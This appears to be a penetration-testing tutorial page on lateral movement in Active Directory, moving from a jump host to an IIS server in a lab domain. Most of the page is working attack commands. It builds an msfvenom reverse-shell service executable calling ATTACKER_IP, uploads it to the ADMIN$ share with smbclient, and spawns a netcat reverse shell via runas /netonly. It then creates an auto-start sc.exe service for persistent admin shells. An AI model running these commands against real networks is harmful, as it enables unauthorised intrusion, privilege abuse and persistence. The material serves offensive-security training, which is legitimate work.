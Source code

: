 # Example

Suppose the following scenario where we have obtained two sets of AD credentials:&#x20;

a. Low privileges (user)

b. Administrative access (admin)&#x20;

Our goal is to obtain a shell session on an _IIS_ server with administrative privileges. There are 2 servers we will be working with:

a. Intermediary (`jmp.test.com`)

b. IIS (`iis.test.com`)

Let's assume that the Intermediary server have no data that will be interesting to us, and it simply functions as an intermediary to get to the _IIS_ server. The main goal is the _IIS_ server, which is only accessible/routable from the intermediary server due to network restrictions, firewalls, etc.

The first set of AD credential allows us to gain a remote shell session on the intermediary machine (`jmp.domain`), via SSH.&#x20;

However, the _IIS_ server does not expose a SSH service. Thus, we need to make use of the session we have on the intermediary server to move laterally to the _IIS_ server (`iis.domain`) using the obtained admin credentials, to gain a remote session with administrative privileges.&#x20;

### (1) Using `sc.exe`

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)" %}

#### 1. SSH into the intermediary server (with the first set of low-privileged credentials)

```sh
$ ssh test.com\\user@jmp.test.com
```

This will provide us a command prompt:

```
C:\Users\user> whoami
user
```

#### 2. Craft the reverse shell payload (`msfvenom`) and upload it to the IIS server (with admin credentials)

We can use `msfvenom`  to craft a payload in the `exe-service` format, which allows us to encapsulate our payload inside a fully functional service executable.

{% code title="Attacker" overflow="wrap" %}
```sh
# take note of the LPORT value, it is required when we are starting the msfconsole listener
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=9999 -o <service_exec_name>.exe
```
{% endcode %}

> Replace ATTACKER\_IP with IP address of your attacker machine

**Uploading the payload**

Now, we can upload the payload to the _IIS_ server (`smbclient`), and subsequently start a listener with `msfconsole` :

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -L '//iis.test.com' -W xxx
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...

$smbclient -c "put <service_exec_name>.exe" -U admin -W xxx '//iis.test.com/admin$/' <password>
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the executable file created with msfvenom

_Start the msfconsole listener:_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 
```
{% endcode %}

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient" %}

#### 3. Spawn a remote `/netonly` shell session on the intermediate server (as the admin)&#x20;

Start a listener on the attacker machine on eg. port **8888**

* This is the listener that provides us a remote shell session as the admin (next step)

{% code title="Attacker" %}
```sh
$ nc -lvnp 8888
```
{% endcode %}

From the remote shell session (step 1), we can spawn a new `/netonly` shell to allow us to perform network connections/requests as the admin:

{% code title="jmp.test.com (user)" overflow="wrap" %}
```sh
C:\Users\user> runas.exe /netonly /user:test.com\admin "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 8888"
```
{% endcode %}

The listener on port **8888** will receive a remote command prompt on `jmp.test.com` as the admin:

{% code title="jmp.test.com (admin)" %}
```
C:\Windows/system32> 
```
{% endcode %}

#### 4. Start a service (`sc.exe`) on the _IIS_ server that automatically executes the uploaded reverse shell payload

Now, with a shell session as the admin, we can create a service executable that calls our uploaded `msfvenom` payload created earlier:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
# start powershell
C:\> powershell

PS> sc.exe \\iis.test.com create rvshell binPath= "%windir%\myservice.exe" start= auto
PS> sc.exe \\iis.test.com start rvshell
```
{% endcode %}

After performing the following actions, we will retrieve a reverse shell connection from the `msfconsole` session earlier anytime the _IIS_ server starts:

{% code title="iis.test.com (admin)" %}
```
C:\Windows/system32> hostname
iis
```
{% endcode %}

**Additional notes**

Note that it will not work if we tried to establish a reverse shell connection from the admin shell directly with `sc.exe` using the `binPath` option:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
C:\Windows/system32> sc.exe \\TARGET create <servicename> binPath= "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 9999" start= auto

C:\Windows/system32> sc.exe \\TARGET start <servicename>
```
{% endcode %}

This is because the service manager expects the executable that is being executed to function as a service executable (perform certain actions), which is different from standard `.exe` files, as with what we have provided. The method we have explored with `msfvenom` works as it encapsulates the payload within a valid service executable.
